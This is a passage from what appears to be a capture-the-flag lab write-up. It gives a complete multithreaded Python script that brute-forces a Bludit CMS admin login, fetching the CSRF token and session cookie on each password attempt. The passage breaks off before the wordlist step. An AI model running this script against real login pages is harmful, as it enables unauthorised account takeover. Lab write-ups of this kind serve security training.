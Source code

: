 This can be converted into the following brute force Python script that takes care of session cookies and the CSRF token:

```python
import re
import sys
import random
import string
import requests
import multiprocessing
import multiprocessing.dummy

USERNAME = 'admin'
TARGET   = 'http://10.10.10.191/admin/login'
WORDLIST = 'wordlist.txt'
PROXIES  = {}
# for debugging with BurpSuite:
# PROXIES  = {
#   'http' : 'http://127.0.0.1:8080/'
# }
HEADERS = {
  'User-Agent': 'Mozilla/5.0',
}

def thread(password):
  password = password.strip()
  s = requests.session()
  r = s.get(TARGET, proxies=PROXIES, headers=HEADERS)
  n = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*)"', r.text)
  print(f'[+][BLUDIT-KEY = {s.cookies.get_dict()["BLUDIT-KEY"]}][CSRF = {n[0]}] trying {USERNAME}/{password} ...')
  r = s.post(TARGET, proxies=PROXIES, headers=HEADERS, data={
    'tokenCSRF' : n[0],
    'username' : USERNAME,
    'password' : password,
    'remember' : 'true',
    'save': '',
  })
  if 'Username or password incorrect' not in r.text:
    print(f'[!] FOUND: {USERNAME}/{password}')
    print(r.text)

if __name__ == '__main__':
  wordlist = []
  with open(WORDLIST, 'r', encoding='latin-1') as f:
    wordlist.extend(f.readlines())
  print(f'[*] loaded {len(wordlist)} values ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, wordlist)
```

Now generate `wordlist.txt` by scraping the website:
